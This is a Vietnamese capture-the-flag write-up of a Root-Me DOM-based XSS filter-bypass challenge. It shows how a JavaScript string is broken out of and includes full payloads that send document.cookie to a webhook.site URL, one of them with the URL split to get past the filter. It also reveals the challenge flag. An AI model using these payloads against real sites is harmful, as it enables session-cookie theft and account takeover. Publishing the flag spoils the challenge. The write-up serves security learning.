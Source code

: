 ```diff
@@ Web - Server Challenge @@
```

## XSS DOM Based - Filters Bypass [50 Points]

- Ở challenge này, tác giả cho ta một trang để nhập số

  ![15](img/15.jpg)

- Kiểm tra source thì thấy số ta nhập được render vào vị trí này và chẳng làm gì cả. Cho dù t có thắng trò này thì cũng không được flag

  ![15-1](img/15-1.jpg)

- Mục tiêu của ta là tìm cách truyền vào tham số number một chuỗi payload XSS để có thể khai thác, sau đó gửi link cho admin là có được flag

- Đầu tiên thử với payload đơn giản là 

  ```js
  <script>alert(1)</script>
  ```

  Thì thấy các kí tự ```<``` và ```>``` đã bị escape. 

  ![15-2](img/15-2.jpg)

- Tìm kiếm thêm ta thấy dấu ```+``` và dấu ```;``` cũng bị loại bỏ đi. Tuy nhiên còn một dấu ```/``` hữu ích thì vẫn được accept

- Nguyên đoạn code dòng đó sẽ là

  ```js
  var number = ' Chuỗi mà ta nhập vào nằm giữa 2 dấu single quote ' ;
  ```

  => Em thực hiện bypass như sau:

  ```js
  var number = '' == XSS-here // ' ;
  ```

  Tức chuỗi của ta nhập vào sẽ có dạng ```' == XSS //```

  Ví dụ là ```' == alert(1) //```

  ![15-3](img/15-3.jpg)

- Thay đổi payload để lấy cookie, payload trở thành

  ```' == (eval)(document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie))//```

- Và kết quả là ...

  ![15-5](img/15-5.jpg)

- Ta cần phải sửa lại chút để tránh bị phát hiện đang nhập vào một url

  ```' == (eval)(document.location='https'.concat('://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)))//```

- Kết quả thu được

  ![15-4](img/15-4.jpg)

  ```diff
  --FLag là: rootme{FilTERS_ByPass_DOm_BASEd_XSS}
  ```

  ​
